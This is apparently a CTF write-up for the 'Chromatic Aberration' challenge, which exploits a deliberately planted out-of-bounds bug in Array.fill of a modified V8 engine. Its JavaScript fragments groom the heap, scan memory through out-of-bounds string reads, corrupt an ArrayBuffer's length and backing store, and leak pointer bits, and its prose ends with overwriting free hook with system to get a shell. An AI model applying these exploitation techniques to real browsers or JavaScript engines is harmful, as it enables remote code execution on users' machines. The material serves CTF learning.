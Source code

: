 # CONFidence CTF 2020 Teaser Chromatic aberration


```
Chromatic Aberration
Points: 182
Solves: 20
Pwn our chrome for fun and profit.

Ok, it's not really Chrome, but it's close enough.

Let's say, it's chromatic

The memory limit is 64MB

nc chromatic-aberration.zajebistyc.tf 31004
6d87044f837a59e649f6d799143aede299a3103e764f8c46c921c3ee16da773a_chromatic_aberration.tar 103M
For people having problems with the above link, try this ones

6d87044f837a59e649f6d799143aede299a3103e764f8c46c921c3ee16da773a_chromatic_aberration.tar 103M
6d87044f837a59e649f6d799143aede299a3103e764f8c46c921c3ee16da773a_chromatic_aberration.tar 103M

```


In this CTF Question, author introduced a OOB read and arbitary write to the Array.fill of the V8 engine 

So, our exploitation will be very straightforward 

First, we will set up a Big int array with 0x33313131 as marking for arbitary write after we collect sufficent primitive with the OOB 


```js
var tarr = new BigUint64Array(8);
tarr[0] = 0x33313131n;
tarr[1] = 0x32323232n;
```

Then , we will setup an Array of ArrayBuffer and trigger garbage collection to move all of this items to the oldspace.

As mentioned in the doc of GC, its expected to trigger in anytime, this step can ensure the address leaked will be constant throughout the exploitation

This is essential for locating relative information and escalate to code execution (There is better way for this chall T_T) 

```js
var ab = []
for (var i = 0; i < 0x200; i++) {ab.push(new ArrayBuffer(0x1337));}
var oob_str_arr = ['AAAAAAAA','BBBBBBBB','CCCCCCCC']
gc();
gc();
console.log('[+] Locate relative postion of tarr')
```

We use the OOB read primitive to locate the relative postion of tarr from the oob_str_arr and locate one of the ArrayBuffer 

```js

var tarr_ix = 0;
for (var i = 0; i < 4000; i++) { 
    if(oob_str_arr[0].charCodeAt(-1620000-i) == 0x33& 
    oob_str_arr[0].charCodeAt(-1620000-i-1)  == 0x31& 
    oob_str_arr[0].charCodeAt(-1620000-i-2)  == 0x31& 
    oob_str_arr[0].charCodeAt(-1620000-i-3)  == 0x31)
    {
        tarr_ix=i;
        };
        }
console.log(tarr_ix);
console.log('[+] Locate array buffer')

var ab_ix = 0;
for (var i = 0; i < 4000; i++) { 
    if(oob_str_arr[0].charCodeAt(-1620000-i) == 0x13 & 
    oob_str_arr[0].charCodeAt(-1620000-i-1)  == 0x37)
    {
        ab_ix=i;
        };
        }
```

The above code used the memory layout as a features for locating the ArrayBuffer from the memory : 

![alt text](1.jpg)

Originally, we fetch the difference dynamically, but it turns out that this way not quite stable, so we just hardcode it with 650(found base on experiment)


```js
// 650 is the threshold calculate from running the code in debugger 
// weird 
diff = 650//tarr_ix-ab_ix;
console.log('[+] Difference : ')
console.log(diff)

```

Next, we will corrupt the size of the ArrayBuffer we obtained and get it back 


```js
tarr.fill(0x4000n,Math.floor(diff/8)-1,Math.floor(diff/8));

var corrupted_ix = 0;

console.log('[+] Now we corrupted one of the array size :)')
for (var i = 0; i < 0x200; i++){
    if (ab[i].byteLength!=0x1337)
    {
        corrupted_ix =i;
    }
    };

```

Our exploitation technique is simple, we will corrupt the backing store of the ArrayBuffer and point it to anywhere in the memory
![alt text](2.jpg)

However, from the deployed pointer compression [1](https://blog.exodusintel.com/2020/02/24/a-eulogy-for-patch-gapping-chrome/), we cannot leak address directly

So, we will need to leak the upper part of the address 

While scanning the memory, we found the upper part of the address

![alt text](3.jpg)

The 0x0000007 pattern exist constantly throughout runtime, so we use the below code to scan the memory in order to retrieve the upper part of the address 


```js
var up_byte = 0;
var lo_byte = 0;

for (var i = 0; i < 10000; i++) { 
    if(oob_str_arr[0].charCodeAt(-1620000-i)  ==0 & 
       oob_str_arr[0].charCodeAt(-1620000-i-1)==0 & 
       oob_str_arr[0].charCodeAt(-1620000-i-2)==0 & 
       oob_str_arr[0].charCodeAt(-1620000-i-3)==7 & 
       oob_str_arr[0].charCodeAt(-1620000-i+1)>0 & 
       oob_str_arr[0].charCodeAt(-1620000-i+2)>0) {
           up_byte = oob_str_arr[0].charCodeAt(-1620000-i+2); 
           lo_byte = oob_str_arr[0].charCodeAt(-1620000-i+1);
            break;
            }
            }
```

Thanks to the pointer compression, the step for leaking the binary base is much easier now :) 

We can leak some pointer of the d8. Then,using the CXA handler to resolve the GI abort and overwrite the free hook with system and call console.log('sh') to get the shell  

Exploit with [pwn_with_logs.js](pwn_with_logs.js) will crash due to weird GC issues 	





